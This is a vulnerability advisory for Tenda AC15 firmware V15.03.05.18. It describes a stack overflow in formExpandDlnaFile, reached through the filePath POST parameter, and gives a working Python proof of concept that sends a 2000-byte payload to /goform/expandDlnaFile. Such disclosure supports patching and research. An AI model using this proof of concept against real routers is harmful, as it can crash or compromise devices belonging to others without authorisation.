 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2710.html

## Affected version

AC15 V15.03.05.18

## Vulnerability details

The Tenda AC15 V15.03.05.18 firmware has a stack overflow vulnerability in the `formExpandDlnaFile` function. The `v18` variable receives the `filePath` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `filePath` can trigger this security vulnerability.

![image-20240305164522670](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305164522670.png)

![image-20240314221209821](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314221209821.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/expandDlnaFile"
payload = b"a"*2000

data = {"filePath": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240314221256130](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314221256130.png)
